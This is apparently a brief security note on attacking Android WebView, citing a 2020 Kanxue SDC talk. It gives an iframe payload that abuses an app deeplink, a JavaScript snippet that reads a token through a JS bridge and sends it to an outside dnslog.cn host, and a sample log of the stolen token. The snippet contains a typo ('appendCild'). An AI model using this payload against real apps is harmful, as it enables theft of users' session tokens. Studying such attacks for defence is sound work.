

## Process

## payload
- Evil.html
```html
<iframe src= "deeplink://com.abc.xxx/activity?param=1&url=http://whitelist.com/xss=exploit.js">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```
- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)
